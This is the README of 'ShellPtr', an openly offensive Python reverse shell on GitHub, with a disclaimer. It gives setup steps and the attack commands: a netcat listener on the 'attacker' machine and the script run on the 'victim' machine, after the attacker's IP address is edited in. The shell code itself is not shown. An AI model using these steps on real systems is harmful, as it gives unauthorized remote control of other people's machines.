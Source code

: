 <div align="center">
  
![version](https://img.shields.io/badge/Version-1.1.0-informational?style=flat&logo=&logoColor=white&color=red) ![stars](https://img.shields.io/github/stars/PwnHash/ShellPtr?style=social) ![forks](https://img.shields.io/github/forks/PwnHash/ShellPtr?label=Forks&logo=&logoColor=white&color=blue) ![languages](https://img.shields.io/github/languages/count/PwnHash/ShellPtr?style=social&logo=&logoColor=white&color=blue) ![issues](https://img.shields.io/github/last-commit/PwnHash/ShellPtr?style=flat&logo=&logoColor=white&color=blue) ![platform](https://img.shields.io/badge/Platform-Linux-informational?style=flat&logo=&logoColor=white&color=green) 
  
</div>


## Getting Started 
- 1 ) `Clone` The `Repo` 
```
git clone https://github.com/PwnHash/ShellPtr.git
```
- 2 ) You Need To `Navigate To` The `ShellPtr Directory`
```
cd ShellPtr
```
- 3 ) `Change` The `IPv4 Address` In The Script

- 4 ) This `Reverse Shell` Needs `Requirements`, Install Them Using The Following Command
```
pip install -r requirements.txt
```
### If The Steps Above Are Done:
---
- On The `Attacker` Machine:
```
nc -lnvp 5003
```
- On The `Victim` Machine:
```
python3 shelldup.py
```

# :warning: Note:
- This tool is for educational and ethical purposes only. 
- I'm not responsible for your actions. 
- Don't hack anyone without their permissions.
- With great force follows great responsibility.

<div align="center">

---
  
### Tested on 5.18.0-kali3-amd64, 5.15.0-48-generic-Ubuntu
  
---
  
</div>

